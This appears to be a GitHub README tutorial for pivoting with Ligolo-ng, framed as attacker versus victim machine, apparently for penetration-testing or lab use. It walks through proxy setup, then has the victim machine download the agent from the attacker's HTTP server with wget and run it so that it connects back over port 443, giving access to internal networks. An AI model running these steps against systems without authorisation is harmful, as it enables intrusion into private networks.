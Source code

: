 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=30&duration=4000&pause=1&color=FFFFFF&multiline=true&width=485&height=80&lines=%E2%94%8C%E2%94%80%E2%94%80(ThisizAmen%E3%89%BFKaniber)-%5B%2F%5D;%E2%94%94%E2%94%80%23+Ligolo+Proxy+Setup)](https://git.io/typing-svg)

## Overview

This guide provides step-by-step instructions to set up Ligolo Proxy and Ligolo Agent for establishing a reverse proxy tunnel between an attacker machine and a victim machine. This setup allows for accessing internal network resources through the tunnel.

### Prerequisites

- Linux-based system
- Root privileges (or equivalent)
- Ligolo Proxy and Ligolo Agent executables

---

## 1. Download Ligolo Proxy and Agent

Before setting up the tunnel, you need to download the necessary executables:

- **Ligolo Proxy**: A tool for setting up the reverse proxy on the attacker machine.
- **Ligolo Agent**: A tool that runs on the victim machine to connect back to the attacker.

### Proxy Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

### Agent Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

After downloading, unpack the `.tar.gz` files using:
```bash
tar -xzvf <filename>.tar.gz
```

---

## 2. Setup Ligolo Tunnel on the Attacker Machine

### Change the user from 'root' to your custom user (optional but recommended for security):
```bash
sudo ip tuntap add user <your_username> mode tun ligolo
```

### Delete any conflicting IP routes (if you're using VPN):
```bash
sudo ip route del 192.168.98.0/24 dev tun0
```

### Add the desired internal network range to the Ligolo tunnel:
```bash
sudo ip link set ligolo up
sudo ip route add 192.168.98.0/24 dev ligolo
```

### Start the Ligolo Proxy:
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

---

## 3. Setup Ligolo Agent on the Victim Machine

### Download the Ligolo Agent from the Attacker Machine:

Ensure you have a Python HTTP server running on the attacker machine to serve the agent:
```bash
python3 -m http.server 8000
```

On the victim machine, download the agent:
```bash
wget http://<attacker_machine_ip>:8000/agent -P /opt/
```

### Make the Agent executable and run it:
```bash
chmod +x /opt/agent
/opt/agent -connect <attacker_machine_ip>:443 -ignore-cert
```

---

## 4. Access the Internal Network (Attacker Machine)

Once the agent is running on the victim machine and connected back to the attacker, follow these steps to access the internal network:

1. Open the Ligolo menu:
```bash
session
```

2. Start the session:
```bash
start
```

---

## Conclusion

You have now successfully set up the Ligolo Proxy and Agent, allowing access to the internal network of the victim machine. You can now interact with the internal resources securely through the established tunnel.

---

### Tips & Troubleshooting

- If the connection is not working, ensure that both machines are on the same network or have reachable IPs.
- Check firewall rules if any traffic is being blocked.
- Ensure that the correct paths for executables are set in the commands.

---

## About the Author

Hi, I am **Amin Gurbanli**. If you have any questions or need further assistance, feel free to connect with me on [LinkedIn](https://www.linkedin.com/in/amin-gurbanli/).
